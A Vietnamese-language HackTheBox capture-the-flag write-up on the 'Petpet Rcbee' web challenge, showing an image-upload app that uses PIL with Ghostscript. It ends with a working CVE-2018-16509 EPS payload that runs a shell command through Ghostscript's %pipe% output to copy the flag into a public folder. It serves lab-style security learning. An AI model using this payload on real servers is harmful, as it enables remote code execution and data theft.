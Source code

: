 ```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [pil, hack the box]
---
```


Petpet rcbee là một web challenge. Sau khi xem xét thì thấy rằng trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó "pet" ảnh này.

![image](/assets/posts/petpet-rcbee/1.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.

Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k. 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](/assets/posts/petpet-rcbee/2.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](/assets/posts/petpet-rcbee/3.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý rằng có một đường dẫn tệp được public là UPLOAD_FOLDER (/static/petpets/).
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong đường dẫn này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](/assets/posts/petpet-rcbee/4.png)

